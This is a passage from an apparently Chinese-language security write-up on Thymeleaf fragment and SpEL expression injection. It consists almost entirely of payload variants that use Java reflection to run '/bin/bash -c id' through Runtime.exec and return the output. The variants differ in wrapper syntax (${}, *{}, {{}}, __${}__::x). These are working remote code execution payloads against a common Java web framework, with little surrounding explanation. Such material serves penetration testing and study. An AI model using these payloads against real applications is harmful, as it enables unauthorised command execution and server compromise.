 ```
${new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}::x
```

payload2:

```
*{new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}::x
```

```
${{new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}}::x
```

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPk3ia6aiaR9esyeuc9A6ZtHiatEmUem3W35bEqcDibOEyxyvQ4qXgHC5jdmQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPk4riboiaXMvMMdR20h3DQrQYdRickvYTE9fJHPux9tdJP1xzfdia786ibxkw/640?wx_fmt=png)

0x13 Fragment 注入通用 payload2
---------------------------

当然也可以用 Java 反射来改造 payload:

```
*{{new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}}::x
```

或者减少 T(String)，即：

```
__${new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[]))
.invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"})
.getInputStream()).next()}__::x
```

![](https://mmbiz.qpic.cn/mmbiz_png/mVborIuoDabM1VW7xzYqibwErTxEDIDPktW5XDlTo7GZ404TFMrbSngGPibCIiag5B9kTia6DdiafibmcJWePJKKQ1bw/640?wx_fmt=png)

同理用 ${expr} 方式的 payload：

```
${new java.util.Scanner(Class.forName("java.lang.Runtime")
.getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime")
.getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]{"/bin/bash","-c","id"}).getInputStream()).next()}::x
```
